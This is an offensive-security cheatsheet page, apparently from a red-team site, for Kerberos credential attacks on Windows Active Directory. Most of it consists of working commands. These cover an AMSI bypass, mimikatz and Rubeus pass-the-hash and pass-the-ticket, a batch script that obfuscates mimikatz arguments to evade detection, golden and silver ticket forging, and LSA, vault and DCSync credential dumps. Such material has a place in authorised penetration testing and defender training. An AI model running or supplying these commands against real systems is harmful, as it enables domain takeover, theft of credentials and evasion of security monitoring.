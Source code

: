 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2025-02-05
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
* [runas](#runas)
* [pass-the-ticket](#pass-the-ticket)
	* [pth](#pth)
	* [ptt](#ptt)
	* [command-obfuscation](#command-obfuscation)
* [forge](#forge)
	* [tgt](#tgt)
	* [diamond](#diamond)
	* [golden](#golden)
	* [silver](#silver)
* [dump](#dump)
	* [vault](#vault)
	* [lsadump-lsa](#lsadump-lsa)
	* [lsadump-dcsync](#lsadump-dcsync)
* [manipulate](#manipulate)
	* [cleartext-2-nthash](#cleartext-2-nthash)
	* [ccache-convert](#ccache-convert)
	* [krb-export](#krb-export)
* [which-os-what-creds](#which-os-what-creds)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->



## <a name='tools'></a>tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/GhostPack/Rubeus","https://api.github.com/repos/Flangvik/BetterSafetyKatz","https://api.github.com/repos/gentilkiwi/mimikatz","https://api.github.com/repos/zer1t0/cerbero","https://api.github.com/repos/skelsec/pypykatz"]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>


## <a name='runas'></a>runas

```powershell
runas /user:XXX\XXX /netonly cmd
# Enter the password for XXX\XXX:

C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
iex (get-content .\amsibypass.txt)

$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode FullLanguage

$ErrorActionPreference = 'SilentlyContinue' # hide errors on out console
```

* [/discov/setenv](/discov/setenv)
* [/discov/ad#iter](/discov/ad#iter)

## <a name='pass-the-ticket'></a>pass-the-ticket

### <a name='pth'></a>pth

```powershell
# load powershell with PTH
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$ztarg_user_name /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"

# load cmd with PTH
Rubeus.exe -args asktgt /user:$ztarg_user_name /aes256:$ztarg_user_aes256k /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
${zloader} -Path .\Rubeus.exe -args asktgt /user:$ztarg_user_name /aes256:$ztarg_user_aes256k /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# load cmd with PTH / go to command-obfuscation for %Pwn% variable
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_krb_aes256k /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### <a name='ptt'></a>ptt
```bash
# ptt via DInvoke
C:\USers\Public\zloader.exe -path .\Rubeus.exe -args asktgt /user:$ztarg_user_name /aes256:$ztarg_user_aes256k /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_nthash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_nthash /createnetonly:C:\Windows\System32\cmd.exe
```

### <a name='command-obfuscation'></a>command-obfuscation
```bat
REM script file to obfuscate the token manipulation commands 
 @echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\SafetyKatz.exe %Pwn% exit
```

## <a name='forge'></a>forge

### <a name='tgt'></a>tgt
```powershell
# TO TEST
#cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
#cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
#
#./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
#Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

### <a name='diamond'></a>diamond

* TGT modification, avoid detection of forged TGT without PREAUTH 
* requires the KRBTGT$ account hash

```powershell
```

### <a name='golden'></a>golden

* TGT forging, there is no PREAUTH / Kerberos AS-REQ, AS-REP exchanges with the DC
* requires the KRBTGT$ account hash

```powershell
#$zdom_krbtgt_aes256k=""
#$zdom_krbtgt_norid=""
C:\Users\Public\Loader.exe -path .\Rubeus.exe -args evasive-golden /aes256:$zdom_krbtgt_aes256k /sid:$zdom_krbtgt_norid /ldap /user:Administrator /printcmd
#
C:\Users\Public\Loader.exe -path .\Rubeus.exe -args evasive-golden /aes256:$zdom_krbtgt_aes256k /user:Administrator /id:500 /pgid:513 /domain:$zdom_fqdn /sid:$zdom_krb_norid /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:$zdom_dc_fqdn /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

### <a name='silver'></a>silver

* service account hash required to forgort a TGS
* it is mostly the machine account hash, valid for 30 days by default
* more silent than the golden ticket, no kerberos interaction with the DC (aka no AS-REQ, TGS-REQ)

| Service Type 				| 	Service Silver Tickets 	|
|---------------------------|---------------------------|
| WMI						| HOST RPCSS				|
| PowerShell Remoting 		| HOST HTTP (WSMAN RPCSS)	|
| WinRM						| HOST HTTP	 	 			|
| Scheduled Tasks 			| HOST 						| 
| Windows File Share (CIFS) | CIFS 						|
| LDAP operations (DCSync)  | LDAP 						|	
| Windows RSAT 				| RPCSS LDAP CIFS 			|	


```powershell
#$zdom_krbtgt_aes256k=""
#$zdom_krbtgt_norid=""
C:\Users\Public\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/${zdom_dc_fqdn} /aes256:${zdom_krbtgt_aes256k} /sid:${zdom_krbtgt_norid} /ldap /user:Administrator /domain:${zdom_fqdn} /ptt
```

## <a name='dump'></a>dump

### <a name='vault'></a>vault
```powershell
# contains secrets for the: scheduled tasks, ...
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### <a name='lsadump-lsa'></a>lsadump-lsa
```powershell
# dump lsa process
Invoke-Mimi -Command '"token::elevate" "lsadump::lsa /patch"'
Invoke-Mimi -Command '"token::elevate" "sekurlsa::evasive-keys /patch"'
```
### <a name='lsadump-dcsync'></a>lsadump-dcsync
```powershell
# dcsync
Invoke-Mimi -Command '"token::elevate" "lsadump::dcsync"'
```

## <a name='manipulate'></a>manipulate

### <a name='cleartext-2-nthash'></a>cleartext-2-nthash
```powershell
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

### <a name='ccache-convert'></a>ccache-convert

```python
# Convert linux to windows krb ticket :
ticketConverter.py $ztarg_user_name".ccache" $ztarg_user_name".krb"
cerbero convert -i $ztarg_user_name".ccache" -o $ztarg_user_name".krb"
```

### <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='which-os-what-creds'></a>which-os-what-creds

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)
